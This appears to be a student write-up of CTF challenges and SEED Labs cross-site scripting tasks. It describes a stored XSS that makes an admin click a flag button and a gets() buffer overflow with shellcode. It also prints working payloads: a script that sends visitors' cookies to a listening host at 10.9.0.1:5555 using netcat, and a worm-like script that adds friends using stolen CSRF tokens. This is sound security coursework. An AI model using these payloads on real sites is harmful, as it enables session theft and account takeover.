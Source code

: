 # CTF

## Challenge 1

### Recon

- We started by sending a random request just to see what would happen. 
- It was rejected after a while, but we noticed that our input would go in the HTML of the page, without any protection.
- After we send the request, two disabled buttons are revealed, including the one that sends the flag, the one we want the admin to click. 

### Vulnerability

We realized that, if our input goes in the HTML code without any protection, we are able to inject code. Using script tags (`<script>`), we are able to inject JavaScript in the page.

After inspecting the button that gives the flag, we got its id: `giveflag`. We need the admin to click on said button, there is no use in pressing it ourselves, as we don't have the necessary permissions. Our goal was to send a request that, when received by the admin, would click the button instantly. For that, we used JavaScript's `click()` method. 

So, after sending the input `<script> document.getElementById("giveflag").click() </script>` and wanting the 2 minutes, we got the flag - `flag{aee2a3da1e8e9588d6f60b6c02bdf0e5}`

## Challenge 2

### Recon

- By running `checksec` we found that there is no canary, and the stack is executable.
- By looking at the source, we found that `gets(buffer)` was being used to save the user input to the buffer, which is vulnerable to a buffer overflow attack.

### Vulnerability

After identifying the buffer overflow, we needed to use it to get a shell in the server, in order to get the flag. We did this by injecting shellcode (27 bytes) between the buffer's (100 bytes) start address and the return address (with the remaining bytes filled with NOP instructions), and overwriting the return address to redirect the program flow to the shellcode. Using `gdb` we calculated the offset between these two addresses.

To get the shellcode and write an exploit script, we adapted the exploit from SEED Labs - Buffer Overflow Attack Lab ([Logbook 5](LOGBOOK5.md)).

We successfully launched a shell, first locally and then in the server, which allowed us to `cat` the `flag.txt` file and retrieve the flag.

# SEED Labs

## Cross-Site Scripting (XSS) Attack Lab

### Task 1: Posting a Malicious Message to Display an Alert Window

- We started by doing the setup, including the DNS and server setups, as we did for the previous lab. 

- This time we also installed the Firefox add-on *HTTP Header Live*, with the goal of capturing and analyze HTTP requests.

- To display an alert window, we just embedded the JavaScript code `<script>alert('XSS');</script>` in the `Brief description` field of a random profile (in this case, Alice's). This causes an alert window with the message *XSS* to be displayed each time a user accesses Alice's profile.

![Task 1](images/alice_alert.png "Task 1: Displayed an alert window on Alice's profile")

### Task 2: Posting a Malicious Message to Display Cookies

- To display the user's cookies in an alert window on a profile, we embedded the JavaScript code `<script>alert(document.cookie);</script>` in the `Brief description` field of Alice's profile (yet again). This causes an alert window displaying the viewer's cookies to appear each time a user accesses Alice's profile.

![Task 2](images/alice_cookies.png "Task 2: Displayed an alert window with the viewer's cookies on Alice's profile")

### Task 3: Stealing Cookies from the Victim’s Machine

- This time around, our goal is to get the cookies of the visitors of a profile, but in such a way that only we, the attackers, can see. To achieve this, we want an *HTTP GET* request to be sent to our machine containing the user's cookies. It can be done by having the malicious JavaScript insert an `<img>` tag with its `src` attribute set to the our machine. When the JavaScript inserts the `img` tag, the browser tries to load the image from the URL in the `src` field. The *HTTP GET* request, will then, be sent to the port we will specify in the referred `src` field, in this case the `port 5555`.

- We executed this by embedding the following script `<script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');</script>` once again in the `Brief description` field of Alice's profile.

- Finally, we set up a TCP server to listen the `port 5555`, using the command `nc -lknv 5555`, in order to obtain the *HTTP GET* request containing the cookies.

![Task 3](images/netcat_cookies.png "Task 3: HTTP GET request containing the user's cookies")

### Task 4: Becoming the Victim’s Friend

- The objective of this task is to write an XSS worm that adds Samy as a friend to any other user that visits Samy’s page. In order to write said worm, we needed to understand the structure of the *HTTP* request for adding friends. To do that, we used the aforementioned *HTTP Header Live* Firefox add-on.

- We observed that when a user added Samy to his friend list, the *HTTP* request would be something like : `http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1639964237&__elgg_token=ueHP3gyKeBB3z1PSar2LFg&__elgg_ts=1639964237&__elgg_token=ueHP3gyKeBB3z1PSar2LFg`. Basically it would always be `http://www.seed-server.com/action/friends/add?friend=59` plus the security tokens twice, with the number 59 being the identifier for Samy, as it changed when we tried to add users other than Samy as friends.

- Using the code skeleton provided for us, we embedded the following JavaScript code in the `About Me` field of Samy's profile:

```js
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
//Construct the HTTP request to add Samy as a friend.
console.log("TS TKN: " + ts);
console.log("TKN TKN: " + token);
var sendurl= "/action/friends/add?friend=" + "59" + ts + token + ts + token; //FILL IN
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>
```

- It worked as intended! For example, Charlie's friend list looked like this initially:

![Task 4](images/charlie_friends_init.png "Task 4: Charlie's empty friend list")

- And changed to this, after only visiting Samy's profile:

![Task 4](images/charlie_friends_samy.png "Task 4: Charlie's friend list after visiting Samy's profile")
